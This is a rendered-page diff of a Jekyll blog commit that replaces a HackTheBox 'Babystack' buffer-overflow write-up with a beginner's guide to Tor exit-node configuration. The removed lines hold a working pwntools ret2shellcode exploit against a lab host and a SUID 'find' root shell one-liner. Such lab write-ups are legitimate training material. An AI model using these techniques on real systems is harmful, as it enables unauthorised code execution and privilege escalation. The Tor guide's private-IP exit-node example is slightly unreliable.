

Before and after one commit to 5odead/5odead.github.io, a Jekyll site: the page built from _posts/2025-05-03-htb-babystack-buffer-overflow.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 96% size, without its empty margins (188-1091 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2025-05-03-htb-babystack-buffer-overflow.md

````diff
--- a/_posts/2025-05-03-htb-babystack-buffer-overflow.md
+++ b/_posts/2025-05-03-htb-babystack-buffer-overflow.md
@@ -1,97 +1,96 @@
 ---
 layout: post
-title: "HTB - Babystack: Classic Stack Buffer Overflow Writeup"
-date: 2025-05-03
-last_modified_at: 2025-05-03
-tags: [pwn, buffer-overflow]
-description: "Step-by-step exploitation of a non-PIE, NX-disabled binary on HackTheBox: pattern-offset, ret2shellcode, and shell pop on the remote service."
-image: /assets/images/example-cover.svg
+title: "A Beginner's Guide to Tor Exit Nodes"
+date: 2026-06-15
+last_modified_at: 2026-06-15
+tags: [tor, privacy, networking]
+description: "How Tor exit nodes work, why you might pick a specific country, and exact torrc config snippets for ExitNodes, StrictNodes, and ExcludeExitNodes."
 ---
 
-A textbook stack-overflow box: no PIE, no canary, NX disabled. Perfect for revisiting the fundamentals end-to-end.
+Tor routes traffic through multiple relays to hide your IP. The exit node is the last relay—where your traffic leaves Tor and hits the public internet. You can force Tor to use exits in a specific country (or block certain countries) by editing the `torrc` file.
 
-![Disassembly of the vulnerable function highlighting the gets call](/assets/images/example-cover.svg)
+## What Tor Actually Does
 
-## Enumeration
+Tor (The Onion Router) is a decentralized network of volunteer relays. Each relay encrypts your traffic and peels off a layer like an onion before forwarding it. The final relay—the **exit node**—delivers your request to the destination site.
 
-`checksec` tells us nearly everything:
+Tor Browser is the ready-to-use package: it automatically sends all traffic through Tor, hides your IP, and blocks many tracking methods.
 
-```bash
-$ checksec --file=./babystack
-RELRO:    Partial RELRO
-Stack:    No canary found
-NX:       NX disabled
-PIE:      No PIE (0x400000)
+## Why Exit Nodes Matter
+
+Exit nodes don't see your real IP, but they **can see the destination site** and the unencrypted contents of your traffic (unless the site uses HTTPS). Tor picks exits randomly by default, but you may want to control them for:
+
+- **Testing**: Check how a site behaves from a specific country
+- **Research**: Access region-restricted content
+- **Content access**: Ensure traffic exits in a certain location
+
+## Edit torrc to Control Exits
+
+Find your `torrc` file:
+
+- **Windows**: `C:\Users\<YourUsername>\AppData\Roaming\Tor\torrc`
+- **macOS/Linux**: `/etc/tor/torrc` or `~/.tor/torrc`
+
+Open it and add the lines below.
+
+### Pick a country
+
+```text
+ExitNodes ua
+StrictNodes 1
 ```
 
-Disassembling `vuln()` shows a 64-byte buffer fed to `gets()` — unbounded read, classic.
+- Replace `ua` with a country code: `us` (USA), `fr` (France), `de` (Germany), etc.
+- `StrictNodes 1` forces Tor to **only** use exits in that country.
+- Set `StrictNodes 0` if you want Tor to prefer that country but allow others if needed.
+
+### Use multiple countries
 
 ```text
-0x0040118a    sub    rsp, 0x40
-0x0040118e    lea    rax, [rbp-0x40]
-0x00401192    mov    rdi, rax
-0x00401195    call   gets
+ExitNodes us,de,fr
+StrictNodes 0
 ```
 
-### Finding the offset
+Tor will prioritize exits in the US, Germany, and France, but can fall back to others.
 
-```bash
-$ cyclic 200 | ./babystack
-Segmentation fault (core dumped)
-$ cyclic -l 0x6161616c
-72
+### Pin by IP address (optional)
+
+```text
+ExitNodes 192.168.1.1
+StrictNodes 1
 ```
 
-So 72 bytes to overwrite the saved RIP.
+Replace with the actual exit node IP you want.
 
-## Exploitation
+## Blacklist countries or nodes
 
-With NX off, we can drop shellcode on the stack and jump straight to it. `objdump` gives us a `jmp rsp` gadget at `0x0040121a`.
+### Block as exit nodes only
 
-```python
-from pwn import *
-
-context.binary = elf = ELF("./babystack")
-context.arch = "amd64"
-
-JMP_RSP = 0x0040121a
-shellcode = asm(shellcraft.sh())
-
-payload  = b"A" * 72
-payload += p64(JMP_RSP)
-payload += shellcode
-
-io = remote("10.10.10.42", 1337)
-io.sendlineafter(b"name?", payload)
-io.interactive()
+```text
+ExcludeExitNodes ru,cn
 ```
 
-Run it:
+Tor won't use Russia or China as exits, but can still use them as entry/middle relays.
+
+### Block from the entire circuit
 
 ```text
-$ python3 exploit.py
-[+] Opening connection to 10.10.10.42 on port 1337: Done
-[*] Switching to interactive mode
-$ id
-uid=1000(babystack) gid=1000(babystack)
-$ cat flag.txt
-HTB{r3t_t0_sh3llc0de_n3v3r_g3ts_0ld}
+ExcludeNodes ru,cn
 ```
 
-## Privilege Escalation
+This prevents Tor from using those countries at any position (entry, middle, or exit).
 
-The `babystack` user owns a SUID copy of `find` — trivial root via:
+## Quick reference
 
-```bash
-$ find . -exec /bin/sh -p \; -quit
-# id
-uid=0(root) gid=0(root)
-# cat /root/root.txt
-HTB{suid_find_classic}
-```
+| Setting              | Effect                                                                 |
+|----------------------|------------------------------------------------------------------------|
+| `ExitNodes us`       | Prefer US exits                                                        |
+| `StrictNodes 1`      | Only use specified exits/countries                                     |
+| `StrictNodes 0`      | Prefer specified exits, but allow others                               |
+| `ExcludeExitNodes ru,cn` | Do not use Russia/China as exits                                    |
+| `ExcludeNodes ru,cn`     | Do not use Russia/China anywhere in the circuit                     |
 
-## Takeaways
+## References
 
-- Always run `checksec` first; it dictates strategy.
-- `jmp rsp` (or any controlled register) makes shellcode placement trivial when NX is off.
-- SUID binaries from GTFOBins are still everywhere in CTF land.
+- Tor Project Documentation — official config guide
+- Tor Network Overview — how relays and circuits work
+- Country codes list — ISO-2 codes for `ExitNodes`/`ExcludeExitNodes`
````
